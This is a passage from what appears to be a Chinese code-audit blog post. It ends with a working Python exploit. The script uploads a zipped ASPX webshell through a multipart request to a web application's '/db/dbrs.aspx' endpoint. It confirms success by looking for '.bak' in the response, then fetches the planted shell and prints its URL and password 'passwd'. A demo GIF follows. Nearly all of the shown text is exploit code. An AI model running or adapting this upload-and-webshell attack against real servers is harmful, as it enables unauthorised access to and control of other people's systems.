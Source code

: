 ```code
PK\x03\x04\n\x00\x00\x00\x00\x00\xa3TtN\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\t\x00\x00\x00webshell/PK\x03\x04\x14\x00\x00\x00\x08\x00\xa3TtN\xf2k\x8d\x9aW\x00\x00\x00W\x00\x00\x00\x16\x00\x00\x00webshell/webshell.aspx\xb3QuP\x08HLOU\xf0I\xccK/\x052l\x95\xbc\x8a\x93\x8b2\x0bJ\x94T\xedlT\x83R\x8b\x0b\xf2\xf3\x8aS\xf5\xc2\x8b2KR5R\xcb\x12s4\x82R\x0bKS\x8bK\xf4<KRs\xa3\x95\n\x12\x8b\x8b\xcbS\x94bu\x94J\xf3\x8a\x13\xd3R\x9545\xadU\xed\x00PK\x01\x02\x1f\x00\n\x00\x00\x00\x00\x00\xa3TtN\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\t\x00$\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00webshell/\n\x00 \x00\x00\x00\x00\x00\x01\x00\x18\x00\xbcoZ\xcf\xc5\xde\xd4\x01\xd9\xbdZ\xcf\xc5\xde\xd4\x01\x98c\xca\xc7\xc5\xde\xd4\x01PK\x01\x02\x1f\x00\x14\x00\x00\x00\x08\x00\xa3TtN\xf2k\x8d\x9aW\x00\x00\x00W\x00\x00\x00\x16\x00$\x00\x00\x00\x00\x00\x00\x00 \x00\x00\x00'\x00\x00\x00webshell/webshell.aspx\n\x00 \x00\x00\x00\x00\x00\x01\x00\x18\x00\xbcoZ\xcf\xc5\xde\xd4\x01\xbcoZ\xcf\xc5\xde\xd4\x01\xbcoZ\xcf\xc5\xde\xd4\x01PK\x05\x06\x00\x00\x00\x00\x02\x00\x02\x00\xc3\x00\x00\x00\xb2\x00\x00\x00\x00\x00
------WebKitFormBoundarywwugP6jAQok20T1v
Content-Disposition: form-data; name="btnUpload"


------WebKitFormBoundarywwugP6jAQok20T1v--
'''

url_chck = url + '/db/dbrs.aspx'
webshell = url + '/temp/webshell/webshell.aspx'
# 上传文件成功后会返回物理路径，包含bak,判断bak是否在内容里边就知道文件上传成功与否
if '.bak' in requests.post(url_chck, headers=headers, data=post_data).text:
    code = requests.get(webshell)
    if code.status_code == 200:
        print('webshell：{} passwd：passwd'.format(webshell))
```

演示图：
![](https://autoing.netlify.com/source/do/images/codeaudit/codeaudit-dr17.gif)

### 结束
![](https://autoing.netlify.com/source/do/images/joke/jiecao.gif)